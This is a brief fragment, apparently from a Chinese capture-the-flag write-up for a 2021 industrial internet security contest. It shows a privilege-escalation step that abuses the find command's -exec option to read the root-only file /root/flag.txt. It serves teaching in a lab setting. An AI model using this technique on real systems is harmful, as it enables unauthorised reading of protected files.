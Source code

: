 ![](../../../../assets/img/Security/CTF/writeup/2021-6-第二届I²S峰会暨工业互联网安全大赛/11-4.png)

利用 find 可以提权

```
cd /tmp
touch test
find test -exec cat /root/flag.txt \;
```
